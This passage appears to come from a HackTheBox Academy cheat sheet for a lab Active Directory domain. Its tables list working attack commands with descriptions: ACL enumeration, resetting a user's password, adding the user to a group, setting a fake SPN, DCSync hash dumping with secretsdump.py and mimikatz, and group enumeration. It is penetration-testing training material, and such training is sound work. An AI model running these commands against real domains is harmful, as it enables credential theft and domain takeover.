 | `Get-ADUser -Filter * \| Select-Object -ExpandProperty SamAccountName > ad_users.txt` | Used to discover a group of user accounts in a target Windows domain and add the output to a text file (`ad_users.txt`) from a Windows-based host. |
| `foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" \| Select-Object Path -ExpandProperty Access \| Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}}` | A `foreach loop` used to retrieve ACL information for each domain user in a target Windows domain by feeding each list of a text file(`ad_users.txt`) to the `Get-ADUser` cmdlet, then enumerates access rights of those users. Performed from a Windows-based host. |
| `$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword) ` | Used to create a `PSCredential Object` from a Windows-based host. |
| `$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force` | Used to create a `SecureString Object` from a Windows-based host. |
| `Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose` | PowerView tool used to change the password of a specifc user (`damundsen`) on a target Windows domain from a Windows-based host. |
| `Get-ADGroup -Identity "Help Desk Level 1" -Properties * \| Select -ExpandProperty Members` | PowerView tool used view the members of a target security group (`Help Desk Level 1`) from a Windows-based host. |
| `Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose` | PowerView tool used to add a specifc user (`damundsen`) to a specific security group (`Help Desk Level 1`) in a target Windows domain from a Windows-based host. |
| `Get-DomainGroupMember -Identity "Help Desk Level 1" \| Select MemberName` | PowerView tool used to view the members of a specific security group (`Help Desk Level 1`) and output only the username of each member (`Select MemberName`) of the group from a Windows-based host. |
| `Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose` | PowerView tool used create a fake `Service Principal Name` given a sepecift user (`adunn`) from a Windows-based host. |
| `Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose` | PowerView tool used to remove the fake `Service Principal Name` created during the attack from a Windows-based host. |
| `Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose` | PowerView tool used to remove a specific user (`damundsent`) from a specific security group (`Help Desk Level 1`) from a Windows-based host. |
| `ConvertFrom-SddlString`                                     | PowerShell cmd-let used to covert an `SDDL string` into a readable format. Performed from a Windows-based host. |



# DCSync 

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `Get-DomainUser -Identity adunn  \| select samaccountname,objectsid,memberof,useraccountcontrol \|fl` | PowerView tool used to view the group membership of a specific user (`adunn`) in a target Windows domain. Performed from a Windows-based host. |
| `$sid= "S-1-5-21-3842939050-3880317879-2865463114-1164" Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs \| ? { ($_.ObjectAceType -match 'Replication-Get')} \| ?{$_.SecurityIdentifier -match $sid} \| select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType \| fl` | Used to create a variable called SID that is set equal to the SID of a user account. Then uses PowerView tool `Get-ObjectAcl` to check a specific user's replication rights. Performed from a Windows-based host. |
| `secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 -use-vss` | Impacket tool sed to extract NTLM hashes from the NTDS.dit file hosted on a target Domain Controller (`172.16.5.5`) and save the extracted hashes to an file (`inlanefreight_hashes`). Performed from a Linux-based host. |
| `mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator` | Uses `Mimikatz` to perform a `dcsync` attack from a Windows-based host. |



# Privileged Access 

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"` | PowerView based tool to used to enumerate the `Remote Desktop Users` group on a Windows target (`-ComputerName ACADEMY-EA-MS01`) from a Windows-based host. |
| `Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"` | PowerView based tool to used to enumerate the `Remote Management Users` group on a Windows target (`-ComputerName ACADEMY-EA-MS01`) from a Windows-based host. |
| `$password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force` | Creates a variable (`$password`) set equal to the password (`Klmcargo2`) of a user from a Windows-based host. |
| `$cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)` | Creates a variable (`$cred`) set equal to the username (`forend`) and password (`$password`) of a target domain account from a Windows-based host. |